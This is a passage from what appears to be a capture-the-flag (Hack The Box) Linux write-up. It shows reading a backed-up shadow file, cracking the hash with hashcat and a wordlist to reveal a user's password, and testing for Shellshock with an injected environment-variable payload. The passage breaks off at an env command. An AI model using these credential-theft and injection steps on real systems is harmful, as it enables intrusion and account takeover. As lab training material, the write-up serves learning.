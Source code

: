 ```sh
sudo -l
sudo /root/troll
ls
cd /backup/
ls -la
cat shadow.backup
```

- find the shadow file in the system
- take the password hash

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/23.jpg)
- add the hashes in a file

#### cracking the password with hashcat

https://hashcat.net/wiki/doku.php?id=example_hashes

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/24.jpg)

- this tells about the hashes format

```
hashcat -m 7400  hashes.hash /opt/hacktools/wordlist1/rockyou.txt
```

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/25.jpg)

- sammy's password is : cooldude

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/26.jpg)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/27.jpg)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/28.jpg)

```sh
su - sammy
```

- this is look like a 2008 nix so vulnerable to sheel shock vulnerability. (2011 identified)
- check for shellshock vulnerability

```sh
IppSec='() { :;}; echo PleaseSubscribe' bash -c :
```

- then check for any privileges changed

```sh
sudo -l
```

- setup an environment for execute shellshock and get a shell

```sh
env
```
